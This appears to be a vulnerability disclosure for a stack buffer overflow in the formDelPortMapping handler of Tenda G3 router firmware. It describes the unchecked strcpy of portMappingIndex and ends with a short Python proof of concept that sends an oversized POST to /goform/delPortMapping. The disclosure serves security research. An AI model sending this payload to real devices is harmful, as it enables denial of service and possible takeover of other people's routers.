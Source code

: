 # Tenda G3 formDelPortMapping
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formDelPortMapping function.
### Vulnerability details
Stack-based buffer overflow in function formDelPortMapping on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formDelPortMapping line 14, it reads in a user-provided parameter, and the variable portMappingIndex is passed to the strcpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formDelPortMapping-1.png)
![](images/formDelPortMapping-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/delPortMapping'
payload = {
    "portMappingIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
